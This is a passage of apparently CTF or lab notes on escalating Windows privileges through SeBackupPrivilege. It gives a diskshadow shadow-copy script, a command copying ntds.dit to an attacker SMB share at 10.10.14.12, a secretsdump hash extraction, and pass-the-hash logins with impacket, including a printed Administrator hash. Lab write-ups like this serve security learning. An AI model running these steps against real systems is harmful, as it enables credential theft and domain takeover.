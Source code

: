 1. Create a backup script
    
    ```powershell
    set verbose on
    set metadata C:\Windows\Temp\meta.cab
    set context clientaccessible
    set context persistent
    begin backup
    add volume C: alias cdrive
    create
    expose %cdrive% E:
    end backup
    ```
    
    Save it in diskshadow.txt
    
2. If you are creating it in linux before uploading it convert it to dos format using `unix2dos`.
3. Run the script
    
    ```powershell
    diskshadow.exe /s .\diskshadow.txt
    ```
    
    ![image.png](image%2024.png)
    
4. Set up SMB share
    
    ```powershell
    sudo impacket-smbserver share -smb2support .
    ```
    
5. Use robocopy to copy ntds.dit from new share to your smb share
    
    ```powershell
    robocopy /B E:\Windows\NTDS C:\tools ntds.dit
    or
    Copy-FileSeBackupPrivilege E:\Windows\ntds\ntds.dit \\10.10.14.12\share\ntds.dit
    ```
    
6. Dump NTDS hashes using`secretsdump`
    
    ```bash
    secretsdump.py -ntds ntds.dit -system SYSTEM.SAV LOCAL
    ```
    
    ![image.png](image%2025.png)
    

Now we can authenticate using `impacket-psexec`:

```bash
impacket-psexec Administrator@$IP -hashes :184fb5e5178480be64824d4cd53b99ee
```

For some reason it hanged a lot for me, so I used `impacket-wmiexec`:

![image.png](image%2026.png)
